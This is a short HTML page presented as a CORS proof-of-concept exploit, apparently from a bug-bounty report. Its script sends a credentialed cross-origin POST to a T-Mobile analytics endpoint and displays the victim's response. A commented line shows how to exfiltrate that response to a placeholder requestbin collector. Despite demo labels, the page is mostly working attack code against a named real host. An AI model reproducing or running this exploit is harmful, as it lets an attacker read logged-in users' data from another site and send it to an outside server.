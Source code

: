 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8" />
  <title>CORS PoC (Demo)</title>
  <meta name="viewport" content="width=device-width,initial-scale=1" />
</head>
<body>
  <h1>CORS PoC Demo</h1>
  <p>Ensure you are logged in to <b>target.com</b> in the same browser before running.</p>
  <label>
    Target URL:
    <input id="target" value="https://smetrics.t-mobile.com/ee/ind1/v1/interact?configId=eb2e9f0f-...&requestId=25336c1d-..." style="width:80%"/>
  </label>
  <br/><br/>
  <button id="run">Run Exploit (demo)</button>

  <script>
    document.getElementById('run').addEventListener('click', function(){
      var target = document.getElementById('target').value;
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          // demo: show response (do NOT leak real user data in public)
          alert("Response (truncated):\n\n" + xhr.responseText.slice(0,200));
          console.log("Full response:", xhr.responseText);

          // OPTIONAL: exfiltrate to a test collector (ONLY for your authorized testing)
          // fetch("https://your-requestbin.example/collect?data=" + encodeURIComponent(xhr.responseText));
        }
      };
      xhr.open("POST", target, true);
      xhr.withCredentials = true;
      try { xhr.send(); } catch(e) { alert("Request failed: " + e.message); }
    });
  </script>
</body>
</html>
